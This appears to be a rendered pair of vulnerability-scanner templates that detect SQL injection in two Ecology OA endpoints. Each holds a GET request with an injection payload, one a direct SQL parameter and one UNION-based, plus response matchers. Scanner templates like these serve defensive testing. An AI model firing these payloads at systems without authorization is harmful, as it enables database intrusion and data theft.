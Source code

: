 # Ecology 8 - SQL Injection
## Description
- Ecology 8 contains a SQL injection vulnerability via a GET request. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - ecology,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select+547653*865674+as+id
### Matchers

**Type - word**
- part - body
- words
    1. 474088963122

**Type - status**
- status
    1. 200

---
# Ecology Syncuserinfo - SQL Injection
## Description
- Ecology Syncuserinfo contains a SQL injection vulnerability via a GET request. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - ecology,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/mobile/plugin/SyncUserInfo.jsp?userIdentifiers=-1)union(select(3),null,null,null,null,null,str(98989*44313),null
### Matchers

**Type - word**
- part - body
- words
    1. 4386499557

**Type - status**
- status
    1. 200

---